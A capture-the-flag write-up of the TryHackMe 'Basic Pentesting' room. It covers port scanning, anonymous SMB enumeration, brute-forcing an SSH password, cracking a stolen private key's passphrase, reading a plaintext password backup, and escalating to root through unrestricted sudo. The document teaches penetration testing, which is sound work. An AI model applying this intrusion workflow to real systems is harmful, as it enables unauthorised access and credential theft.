








# THM - Basic Pentesting

#### Ip: 10.10.10.20
#### Name: Basic Pentesting
#### Rating: Easy

----------------------------------------------------------------------


Note: For this challenge I will be skipping the room's guided questions and will only show the final root flag.

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Basic_Pentesting]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.20 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-28 13:01 CDT
Warning: 10.10.10.20 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.20
Host is up (0.28s latency).
Not shown: 64873 closed tcp ports (reset), 657 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8080/tcp open  http-proxy
|_http-favicon: Apache Tomcat
| fingerprint-strings: 
|   LANDesk-RC: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 2243
|     Date: Thu, 28 Sep 2023 18:04:11 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><bod
|   TerminalServer: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 2243
|     Date: Thu, 28 Sep 2023 18:04:13 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|_    Request</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><bod
|_http-title: Apache Tomcat/9.0.7
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.93%I=7%D=9/28%Time=6515C01C%P=aarch64-unknown-linux-gn
SF:u%r(LANDesk-RC,95F,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x202243\r\n
SF:Date:\x20Thu,\x2028\x20Sep\x202023\x2018:04:11\x20GMT\r\nConnection:\x2
SF:0close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\
SF:x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20typ
SF:e=\"text/css\">h1\x20{font-family:Tahoma,Arial,sans-serif;color:white;b
SF:ackground-color:#525D76;font-size:22px;}\x20h2\x20{font-family:Tahoma,A
SF:rial,sans-serif;color:white;background-color:#525D76;font-size:16px;}\x
SF:20h3\x20{font-family:Tahoma,Arial,sans-serif;color:white;background-col
SF:or:#525D76;font-size:14px;}\x20body\x20{font-family:Tahoma,Arial,sans-s
SF:erif;color:black;background-color:white;}\x20b\x20{font-family:Tahoma,A
SF:rial,sans-serif;color:white;background-color:#525D76;}\x20p\x20{font-fa
SF:mily:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12p
SF:x;}\x20a\x20{color:black;}\x20a\.name\x20{color:black;}\x20\.line\x20{h
SF:eight:1px;background-color:#525D76;border:none;}</style></head><bod")%r
SF:(TerminalServer,95F,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html
SF:;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x202243\r\
SF:nDate:\x20Thu,\x2028\x20Sep\x202023\x2018:04:13\x20GMT\r\nConnection:\x
SF:20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP
SF:\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20ty
SF:pe=\"text/css\">h1\x20{font-family:Tahoma,Arial,sans-serif;color:white;
SF:background-color:#525D76;font-size:22px;}\x20h2\x20{font-family:Tahoma,
SF:Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;}\
SF:x20h3\x20{font-family:Tahoma,Arial,sans-serif;color:white;background-co
SF:lor:#525D76;font-size:14px;}\x20body\x20{font-family:Tahoma,Arial,sans-
SF:serif;color:black;background-color:white;}\x20b\x20{font-family:Tahoma,
SF:Arial,sans-serif;color:white;background-color:#525D76;}\x20p\x20{font-f
SF:amily:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12
SF:px;}\x20a\x20{color:black;}\x20a\.name\x20{color:black;}\x20\.line\x20{
SF:height:1px;background-color:#525D76;border:none;}</style></head><bod");
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-09-28T14:04:21-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-09-28T18:04:21
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 163.36 seconds
```

Checking out the site on port 80 we find a static page:



Looking at the page source we find an interesting comment:



Heading to http://10.10.10.20/development/ we find 2 files:



dev.txt:

```text
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

j.txt:

```text
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Ok cool, looks like we have two users here, whose name start with J and K. Dev.txt mentions SMB has been configured, so lets look there as well.

using CrackMapExec we can see what shares we can access anonymously:



Looks like there is a share called Anonymous. Lets use smbclient to login and see what we find:

```text
┌──(ryan㉿kali)-[~/THM/Basic_Pentesting]
└─$ smbclient \\\\10.10.10.20\\Anonymous
Password for [WORKGROUP\ryan]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 12:31:20 2018
  ..                                  D        0  Thu Apr 19 12:13:06 2018
  staff.txt                           N      173  Thu Apr 19 12:29:55 2018

		14318640 blocks of size 1024. 11093512 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

Cool, we've got a file called staff.txt.

Taking a look at the file we find the full first names of the two users:

```text
┌──(ryan㉿kali)-[~/THM/Basic_Pentesting]
└─$ cat staff.txt                                    
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

### Exploitation

Thinking back to the j.txt file we found, we know that Jan had a weak password and was asked to change it by Kay. Lets use Hydra to try and brute force the password and see if it was updated or if we can still brute foce it.



Nice, Hydra was able to crack Jan's password. Lets use that to SSH in.

```text
┌──(ryan㉿kali)-[~/THM/Basic_Pentesting]
└─$ ssh jan@10.10.10.20                 
The authenticity of host '10.10.10.20 (10.10.10.20)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.20' (ED25519) to the list of known hosts.
jan@10.10.10.20's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)
```

Poking around the box for a bit, we find an SSH key in Kay's directory.



Lets bring that back to our attacking machine so we can SSH in as user Kay:

```text
┌──(ryan㉿kali)-[~/THM/Basic_Pentesting]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Basic_Pentesting]
└─$ ssh -i id_rsa kay@10.10.10.20            
Enter passphrase for key 'id_rsa': 
kay@10.10.10.20's password: 
```

Looks like the key is passphrase protected. We'll need to brute force this using ssh2john:



Cool, now that we have the passphrase we can SSH in as kay:

```text
┌──(ryan㉿kali)-[~/THM/Basic_Pentesting]
└─$ ssh -i id_rsa kay@10.10.10.20                            
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ whoami && hostname
kay
basic2
```

In Kay's home directory we find a password backup containing her password:

```text
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ sudo -l
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

We can then use this password to run `sudo -l` to list what she can run with elevated permissions, and suprisingly, she can run anything at all as sudo.

Lets use this to escalate to root:

```text
kay@basic2:~$ sudo su -
root@basic2:~# whoami
root
root@basic2:~# id
uid=0(root) gid=0(root) groups=0(root)
```

From here we can grab the flag in the root directory:



Thanks for following along!

-Ryan

-----------------------------------------------------------
